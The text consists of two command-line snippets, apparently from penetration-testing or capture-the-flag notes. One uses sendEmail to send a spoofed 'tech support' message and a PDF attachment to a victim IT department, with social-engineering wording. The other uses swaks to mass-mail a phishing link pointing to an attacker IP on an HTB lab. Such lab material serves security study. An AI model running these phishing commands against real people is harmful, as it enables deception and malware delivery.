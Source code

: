 ```
root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.
IT Dept,
We are sending this important file to all our customers. It contains very important instructions for upgrading and securing your software. Please read and let us know if you have any problems.
Sincerely,
```

```
swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
```

